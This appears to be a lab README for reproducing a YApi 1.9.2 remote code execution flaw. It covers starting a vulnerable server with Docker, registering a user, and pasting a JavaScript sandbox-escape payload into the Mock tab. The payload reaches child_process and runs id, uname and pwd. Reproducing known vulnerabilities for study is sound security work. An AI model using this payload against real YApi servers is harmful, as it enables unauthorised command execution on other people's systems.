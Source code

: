 # YApi Registration and Mock Remote Code Execution

YApi is a API management tool developed by Node.JS. If registration of the YApi server is enabled, attackers will be able to execute arbitrary Javascript code in the Mock page.

References:

- <https://paper.seebug.org/1639/>
- <https://www.freebuf.com/vuls/279967.html>

## Vulnerability Environment

Execute following command to start a YApi server 1.9.2:

```
docker compose up -d
```

After the server is started, browse the `http://localhost:3000` to see the index page of the YApi.

## Vulnerability Reproduce

Register a normal user then create a project and an interface:

![](1.png)

![](2.png)

There is a "Mock Tab" that you can input JavaScript code, put the evil code into textarea:

```
const sandbox = this
const ObjectConstructor = this.constructor
const FunctionConstructor = ObjectConstructor.constructor
const myfun = FunctionConstructor('return process')
const process = myfun()
mockJson = process.mainModule.require("child_process").execSync("id;uname -a;pwd").toString()
```

![](3.png)

Then, go back to the preview tab and see the Mock URL:

![](4.png)

Open that URL, Mock script is executed and you can see the output:

![](5.png)
